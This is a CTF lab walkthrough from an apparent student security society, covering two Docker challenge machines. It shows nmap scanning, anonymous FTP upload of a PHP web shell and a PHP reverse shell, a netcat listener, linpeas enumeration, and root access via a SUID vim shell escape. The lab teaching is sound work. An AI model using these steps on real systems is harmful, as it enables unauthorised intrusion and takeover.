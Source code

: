# Nmap 1

So first week of comsec I hope everyone enjoyed the slides and is prepared for the ctf.



after running this commands
```bash
git clone https://github.com/Cov-ComSec/ComSecMaterials.git
cd docker1 
docker-compose up
```
After running this commands you should see something like this in your terminal.

![dockerrunning](imgs/docker_is_working.png)

If you do see this it means you are ready for playing.
Minimize your shell open a new one and start scanning.

### Nmap Scan

```bash
sudo nmap -sC -sV 172.18.0.1
```
![nmap1scan](imgs/nmap_1_scan.png)

It looks like we have 4 ports open 21,25,80,8080
Lets navigate to http://172.18.0.1

If you look at your nmap scan you can see that u have something like "/ftp-uploads" so this a directory in the website let's see whats going on in there. We have a folder called a anonymous let's see what's inside. Hm a file called FTPflag.txt looks like we found the first flag. Good Job!

![ftpanonymous](imgs/ftp_anonymous.png)

So you have one flag.To be honest this flag works more like a hint to tell you what you should do after this. So if you go back to your nmap scan you will see that you have a line "21/tcp open ftp Pure-ftp" so we have a file transfer protocol it is always good to check as this can sometimes be used for file upload to the machine you are attacking. But what's the mean of ftp-anonymous if you do a fast google search you will find out that when this happens you can have acces to ftp server without having to know the credentials.So lets try to connect to the ftp.

```bash
ftp 172.18.0.1
```
You will be asked to input the Name. You just have to type anonymous to connect.
If you do a "ls" you will be able do see the a file called FTPflag.txt which is the same file you found in the website. You type help you will see as the commands that you can use inside the ftp, we want to upload p0wnyshell so that we can get access to the machine through the browser. For now you just need to know that we are using p0wnyshell as our reverse-shell. So "ctrl+c" to stop the ftp connection clone p0wny shell repository [P0wny-Shell](http://github.com/flozz/p0wny-shell.git).
```bash
cd p0wny-shell
ftp 127.18.0.1
put shell.php
```
The last command is going to upload our shell.
If you go back to your browser and back to "/ftp-uploads/anonymous" you will see the file shell.php in there clicked and you will have p0wny-shell.![p0wny-shell](imgs/pwnyshell.png) So you succefully entered the machine. Let's look for the last flag. A easy way to find files on linux is using the file command.
```bash
find / -name "*.txt" 2>/dev/null
```
![findcommand](imgs/find_command.png)

Congratulations! Lets move to docker2

# Nmap 2

So to prove how important is nmap we setup a second nmap challenge but right now we not following the common ports as you can see in here. We mangled the ports 

![StandardPorts](imgs/commonports.pdf)

```bash
sudo nmap -sC -sV 192.168.42.1 -p-
```

![nmap2scan](imgs/nmap_2_scan.png)

In this challenge the ftp part is the same as the first challenge and the first flag is the same, the only difference is that the ports have been changed so if you to "http://192.168.42.1" the website is not going to load you need to instead look for something like this "192.168.42.1:8080".
So lets pass to the second part uploading files to ftp. We have ftp running on port 2121 (2121/tcp ccproxy-ftp) last time you use "ftp $ip" to connect this time that wont work cause you will need to specify the port os instead use something like this "ftp $ip port"

```bash
ftp 192.168.42.1 2121
```

Again use anonymous as login. 
In this challegne we introduced privesc so we will need a scrip to enumerate all te services that are being run on the machine, file permissions, file types, sym links ,etc.
There are 2 that are I know, LinEnum and linpeas. I prefer [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh), instead of cloning the repository what I did is I open my prefered text editor on my kali box and I just copy/pasted the script. Then I stopped the ftp connection I cd to the directory where I have linpeas, I started the connection again and use the "put linpeas.sh" to copy linpeas to the machine. Besides linpeas we will need a php reverse shell, cause p0wny shell is not going to work in this challenge. Another good resource to put in your bookmarks, [PentestMonkeys](https://github.com/pentestmonkey/php-reverse-shell) I did the same process with both linpeas and the [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) so open your editor and "ctrl+c / ctrl+v" put hte ip of your kali box in the line where you see "" \\change this" and upload the file to the ftp.
So right now you should see something like this 

![ftpfodler](imgs/uploads2.png)

Which means you ready. Open a terminal and start netcat.
```bash
nc -lvnp 1234
```
Go to "192.168.42.1:8080/ftp-uploads/php-reverse-shell.php" the site should be loading for ever. If you go back to your terminal you should have access to the box.
Tip: everytime I get a reverse shell I try to find out what user I am.
```bash
whoami
```
Lets not forget we are in /var/www , we need to copy our linpeas script to tmp folder.
```bash
cp linpeas.sh /tmp
chmod +x linpeas.sh
./linpeash.sh
```
Take a look at the output and try to find the SUID section. If you don't know SUID is a type of permission that you have on linux that let's the user run the file or binary. 

![linpeas](imgs/linpeas.png)

That last line mentioning vim.basic maybe we can do some research and see how we can exploit it. Fortunately there is a good resource called ["GTFOBINS"](https://gtfobins.github.io/) which is used for looking how we can exploit binaries look for vim and you will see that you can spawn a shell inside vim or using the command. 
```
:!/bin/sh
#or
vim -c ':!/bin/sh'
```
Now you are root!
```bash
cd /root
cat flag.txt
```
Congrats!
Any doubts contact ComSec Committee on discord.
Don't to submit your flags in [CTFD](https://cueh-comsec.ctfd.io/)


Author:Tiago Pascoal @bs1phc